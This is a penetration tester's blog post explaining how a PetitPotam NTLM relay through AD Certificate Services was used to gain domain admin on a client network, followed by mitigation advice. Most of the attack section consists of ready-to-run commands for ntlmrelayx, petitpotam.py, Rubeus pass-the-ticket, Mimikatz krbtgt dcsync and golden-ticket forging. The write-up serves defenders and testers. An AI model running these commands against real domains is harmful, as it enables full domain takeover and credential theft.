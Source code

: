 ```yaml
---
layout: single
date: 2022-04-22
title: "Pwning Domain Admin with PetitPotam"
toc: true
draft: false
type: ["posts","post"]
categories:
  - Courses
tags:
  - ActiveDirectory
  - RedTeam
  - Pentest
  - PetitPotam
  - NTLM Relay
  - ADCS
---
```

**Disclaimer:**
Original research was done by [Will Schroeder](https://twitter.com/harmj0y) and [Lee Christensen](https://twitter.com/tifkin_) in their [Certified Pre-Owned](https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf) whitepaper.

[PetitPotam](https://github.com/topotam/PetitPotam) PoC was written by [Lionel Gilles](https://twitter.com/topotam77).

I still need to conduct more research and experiment to fully understand this attack and the underlying technicalities.


## Introduction
In a recent network pentest, I found an ADCS CA (Active Directory Certificate Services Certificate Authortity) on the target domain. I haven't gotten a chance to play around with ADCS before, but I did remembered reading about one attack technique called [PetitPotam](https://github.com/topotam/PetitPotam) that abuses NTLM Relay via ADCS to take over the domain. After some time reading up about the technique and getting my hands dirty, I have successfully compromised DA! This blog post will be a quick rundown of how I got DA using the PetitPotam attack.

### Active Directory Certificate Services
On a high level, ADCS is a server role in Windows Active Directory that allows users to build a Public Key Infrastructure (PKI). This means that it can provide digital certificates and digital signature capabilities, improving confidentiality via encryption and integrity via digital signatures. The practical applications of ADCS are VPN (Virtual Private Network), IPSec (Internet Protocol Security), EFS (Encrypting File System), Smart Card logon, and more.

### PetitPotam
PetitPotam is an attack technique that abuses NTLM Relay via ADCS CA with Web Enrollment enabled by exploiting the MS-EFSRPC (Encrypting File System Remote Protocol). This technique allows an attacker in the internal network to force the Domain Controller (DC) machine account to authenticate towards a machine with NTLM relay configured (my attacker machine). This authentication will then be relayed to the CA Web Enrollment to request for a certificate as the DC. This certificate can be captured and be used to request for a TGT as the DC machine account. With this TGT, we can now use Mimikatz do dump the encryption key of the DC and forge a golden ticket.

## Action
From the foothold domain machine, I did some enumeration and was able to locate a CA in the domain. We can use the native Windows tool `certutil.exe` for this or [Certify](https://github.com/GhostPack/Certify). Certify is a C# tool to enumerate and abuse misconfigurations in ADCS, I also used this to look for vulnerable certificate templates. Misconfiguration in certificate templates can lead to privilege escaltion, unfortunately, I did not find any.
{{< image src="/images/CA_.png" alt="CA" position="left" style="border-radius: 8px;" >}}
*Identified CA*

Now I've got the domain name for the CA Web Enrollment Interface at `https://ca-hostname/certsrv`, I could just access this and request for a certificate to get a `certfnsh.asp`.
{{< image src="/images/CA_WebE.png" alt="CA Web Enrollment" position="left" style="border-radius: 8px;" >}}
*CA Web Enrollment Portal*
{{< image src="/images/certfnsh.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Generated certfnsh.asp*

With this, I was able to launch my ADCS Relay attack.

From the attacker box, launch `ntlmrelayx.py`:
```
ntlmrelayx.py -debug -smb2support --target https://ca-hostname/certsrv/certfnsh.asp --adcs --template domaincontroller
```
The `--template` argument would depend on the account that would be relayed. Since I was relaying a DC, then the template should be `domaincontroller`, you could enumerate the template on the ADCS using Certify: `Certify.exe cas`

On another window on the attacker box, launch [PetitPotam](https://github.com/topotam/PetitPotam) against the DC:
```
sudo python3 petitpotam.py <Attack box's IP> <DC's IP>
```

The attack was successful and on the ntlmrelayx window, I have got a Base64 encoded certificate of the DC machine account:
{{< image src="/images/b64cert.png" alt="certfnsh.asp" position="left" style="border-radius: 8px;" >}}
*Base64 certificate of DC$*


From here, I proceeded with requesting for a TGT of DC$ using `Rubeus`:
```
Rubeus.exe asktgt /user:DC$ /domain:<domain> /certificate:<base64-certificate> /ptt
```
With the `/ptt` option, the returned TGT would be imported into my current user session. With the TGT of DC$, I have accquired DA privilege in the environment. 
\
From here, a threat actor could easily forge a golden ticket to achieve complete Domain Dominance:
Launch Mimikatz and dump the AES256 encryption key:
```
# From mimikatz:
lsadump::dcsync /domain:<domain> /user:krbtgt
```
Once grabbed the AES256 encryption key of the krbtgt account, the golden ticket could be forged:
```
# From Mimikatz:
kerberos::golden /user:Administrator /domain:<domain> /sid:<SID of the domain> /aes256:<aes256 key> /ticket:goldie.kirbi
```
Proceeded to inject the golden ticket:
```
Rubeus.exe ptt /ticket:goldie.kirbi
```

## Mitigation

The misconfiguration has been mitigated immediately by enabling Extended Protection for Authentication (EPA) for CA Web Enrollment and Certificate Enrollment Web Service.

Addition mitigations that are recommended by Microsoft are:
- Disable NTLM Authentication on Windows Domain Controllers.
- Disable NTLM on any ADCS server using Group Policy.
- Disable NTLM for Internet Information Services (IIS) on AD CS Servers in the domain running the "Certificate Authority Web Enrollment" or "Certificate Enrollment Web Service" services.
\
More information can be found [here](https://support.microsoft.com/en-gb/topic/kb5005413-mitigating-ntlm-relay-attacks-on-active-directory-certificate-services-ad-cs-3612b773-4043-4aa9-b23d-b87910cd3429?ranMID=46131&ranEAID=a1LgFw09t88&ranSiteID=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&epi=a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA&irgwc=1&OCID=AID2200057_aff_7806_1243925&tduid=%28ir__pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00%29%287806%29%281243925%29%28a1LgFw09t88-Ug.hyM7w8Zm3RQRUQGEifA%29%28%29&irclickid=_pbc1z9tr09kf62lfkn9aaeqtum2xtbsisdfgml0c00)